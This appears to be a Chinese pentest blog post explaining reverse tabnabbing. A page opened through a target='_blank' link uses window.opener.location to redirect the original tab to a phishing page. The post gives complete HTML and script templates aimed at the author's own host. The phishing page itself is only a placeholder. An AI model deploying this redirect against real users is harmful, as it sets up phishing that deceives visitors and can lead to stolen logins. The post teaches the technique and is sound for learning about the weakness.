 +++
date = "2016-10-12T10:24:38+08:00"
description = ""
draft = false
tags = ["钓鱼"]
title = "利用_blank属性钓鱼"
topics = ["Pentest"]

+++

### 0x00 _blank
_blank是html中的标签属性，如```<a target="_blank" href="http://xss.reber-9.com/1.php">HELLO</a>```, 但若点击HELLO打开的网页1.php中有如下代码：
```
<script>
if(window.opener){
  window.opener.location  = "http://xss.reber-9.com/fish.html";
}
</script>
```
则原网页将转跳到http://xss.reber-9.com/fish.html ，这就会造成钓鱼

### 0x01 简单模板
* a.html内容如下：

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>
<body>
    <a target="_blank" href="http://xss.reber-9.com/1.php">HELLO</a>
</body>
</html>
```

* ```http://xss.reber-9.com/1.php```中1.php内容如下：

```
<html>
<head>
    <title>test</title>
    <script>
        if(window.opener){
            window.opener.location = "http://xss.reber-9.com/fish.html";
        }
    </script>
</head>
<body>
    <p>hello</p>
</body>
</html>
```

* 1.php同级下有个钓鱼模板fish.html，内容如下：

```
<html>
<head>
    <title>fish</title>
</head>
<body>
    <h2>This is fishing template!</h2>
</body>
</html>
```

* 点击a.html中的HELLO则会出现下面的情况，也就导致了钓鱼：

![blank钓鱼](/img/post/blank.gif)
